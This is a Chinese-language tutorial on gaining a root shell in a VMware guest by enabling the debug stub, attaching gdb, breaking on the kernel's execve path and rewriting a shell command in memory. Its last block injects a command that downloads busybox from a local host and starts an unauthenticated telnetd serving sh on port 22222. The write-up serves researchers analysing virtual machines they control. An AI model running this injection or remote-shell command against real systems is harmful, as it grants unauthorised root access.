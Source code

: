 ## 通过虚拟机调试获取Root Shell

### 参考文章 

https://wzt.ac.cn/2021/05/12/vm_shell/ 一些虚拟机获取 shell 的方法

### 前言

在参考文章中提到一种通过虚拟机调试的方式获取虚拟机root shell。<br>

不过用参考文章中的方法得到的root shell时，系统是没有完全初始化的，网络也没有起来，很不方便，于是本文在参考文章的基础上进行了一些改进。<br>

### **如何对虚拟机进行调试**

vmware workstation 提供了虚拟机调试接口，官方文档指出只需要在虚拟机的 vmx 文件中添加以下选项，即可在外部使用 gdb 附加到虚拟机上，从而实现对虚拟机的调试。<br>

```
debugStub.listen.guest64 = "TRUE"
debugStub.listen.guest64.remote = "TRUE"
debugStub.port.guest64 = "12347"
debugStub.listen.guest32 = "TRUE"
debugStub.listen.guest32.remote = "TRUE"
debugStub.port.guest32 = "12348"
```

目标虚拟机是64位系统，就使用debugStub.port.guest64作为gdb远程调试端口。<br>

目标虚拟机是32位系统，就使用debugStub.port.guest32作为gdb远程调试端口。<br>

其他虚拟机软件VirtualBox,Qemu等等应该也有类似的方法进行虚拟机调试，暂未具体研究。<br>



在虚拟机的 vmx 文件中添加选项后，启动虚拟机，待虚拟机完全启动进入系统后，执行gdb命令远程附加。<br>

```
# gdb
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) target remote 0:12347
Remote debugging using 0:12347
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0xffffffff819b3eae in ?? ()
(gdb)
```

### 获取Root Shell基本思路

在系统运行时，肯定会执行system/exec类函数，底层都是调用系统内核函数。<br>

不管哪个内核exec系统调用都会调用_do_execve_file_isra_45函数。<br>

![image-20230621134851416](./Images/image-20230621134851416.png)

所以我们在内核_do_execve_file_isra_45函数处下断点，断下后更改函数参数，注入我们自己的命令，即可获取Root Shell.<br>

#### 一些技巧

1.定位_do_execve_file_isra_45函数位置<br>

a)有内核elf文件时<br>

一般内核elf文件中是没有符号的，如果有符号就直接可以定位_do_execve_file_isra_45函数位置。<br>

没有符号时，可以通过HOME=/字符串定位run_init_process函数，进而定位_do_execve_file_isra_45函数位置。<br>

![image-20230621140554288](./Images/image-20230621140554288.png)

![image-20230621140609507](./Images/image-20230621140609507.png)

b)无内核elf文件时<br>

暂未研究成功，先搁置。<br>

2.断点技巧<br>

目标是找到一个参数是/bin/sh -c xxx的调用，这样就可以直接修改xxx的值进行命令修改，可以在_do_execve_file_isra_45函数处下条件断点过滤参数。<br>

```
break *0xffffffff811c2fb0 if *(*(long long*)($rsi))==0x6e69622f

Thread 1 hit Breakpoint 1, 0xffffffff811c2fb0 in ?? ()
(gdb) x/6gx $rcx
0x7ffd6c4acf10: 0x00007f3463d22ae9      0x00007f3463d22ae1
0x7ffd6c4acf20: 0x000000000066c0a0      0x0000000000000000
0x7ffd6c4acf30: 0x00007f3464833f82      0x00007ffd6c4acfc0
(gdb) x/s 0x000000000066c0a0
0x66c0a0:       "/usr/bin/lsb_release -sd 2>/dev/null"
(gdb)

修改对应的命令

set {char [113]} 0x000000000066c0a0 = "cd /tmp;/bin/busybox wget http://192.168.248.1:8000/busybox -O telnetd;chmod +x telnetd;./telnetd -p 22222 -l sh"

继续执行即可获取一个root shell
```

